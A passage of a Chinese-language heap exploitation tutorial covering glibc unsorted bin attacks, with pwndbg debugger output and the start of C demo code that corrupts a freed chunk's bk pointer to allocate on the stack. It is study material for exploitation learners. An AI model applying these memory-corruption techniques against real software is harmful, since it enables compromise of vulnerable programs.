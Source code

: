 ```
smallbins
empty
largebins
empty
```

可以看到,我们的bk指针已经被修改为了&amp;stack-2的位置,也就是

```
pwndbg&gt; p &amp;stack_var
$13 = (unsigned long *) 0x7fffffffe5c8
pwndbg&gt; p/x  0x7fffffffe5c8- 0x7fffffffe5b8
$14 = 0x10
```

然后我们取出我们的unsorted bin

```
pwndbg&gt; p/x stack_var
$15 = 0x7ffff7dd1b78
```

可以看到我们的var_stack的值已经被写成了我们unsortedbin(av)的值了

### <a class="reference-link" name="%E6%80%BB%E7%BB%93"></a>总结

程序首先定义了一个变量stack_var,紧接着malloc了两个chunk

之后Free掉了第一块chunk,并修改p-&gt;bk=&amp;stack_var,这个时候再malloc出来

然后我们的变量值就被改成了unsorted bin(av)的地址

在正常使用中,因为unsorted bin写入的值并非可控值,因此只是起到一个辅助的作用



## 0x02 unsorted bin into stack

### <a class="reference-link" name="%E5%BA%8F"></a>序

这个是unsorted bin attack 的第二例，是修改unsorted bin里chunk的bk指针来达到在栈上malloc出chunk的攻击方式

### <a class="reference-link" name="%E6%BA%90%E4%BB%A3%E7%A0%81"></a>源代码

话不多说,我们直接看源码,同样的,我加了些注释

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;stdint.h&gt;

int main() `{`
  intptr_t stack_buffer[4] = `{`0`}`;

  fprintf(stderr, "Allocating the victim chunkn");
  intptr_t* victim = malloc(0x100);

  fprintf(stderr, "Allocating another chunk to avoid consolidating the top chunk with the small one during the free()n");
  intptr_t* p1 = malloc(0x100);

  fprintf(stderr, "Freeing the chunk %p, it will be inserted in the unsorted binn", victim);
  free(victim);

  //在栈上伪造一个fake chunk
  fprintf(stderr, "Create a fake chunk on the stack");
  //设置下一次分配的大小并且把bk指针指向任意可写的地址
```